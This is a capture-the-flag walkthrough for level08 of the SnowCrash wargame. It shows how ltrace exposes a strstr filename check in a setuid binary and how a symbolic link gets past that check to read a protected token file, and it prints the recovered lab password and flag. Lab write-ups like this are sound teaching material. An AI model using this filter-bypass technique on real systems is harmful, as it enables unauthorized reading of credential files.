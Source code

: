 After logging to level08 we find a suid binary (level08) that read files

Also there's file called token that possibily contains the password for flag08 user

Let's try and execute the binary with token

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$
```

It's seems that there's security check that prevent us from catting the token file and get the password

After running ltrace to figure out the security check, we found that it searchs for 'token' in the entered filname and if it matches it prevent us from printing it's content

```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7b4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                        = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                    = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$
```

The only way to print the content of the token file, is by creating a symbolic link and execute the binary with it as follow

```
level08@SnowCrash:~$ ln -s ~/token /tmp/pass
level08@SnowCrash:~$ ./level08 /tmp/pass
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$
```

Let's log in to flag08 and get the flag.

```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```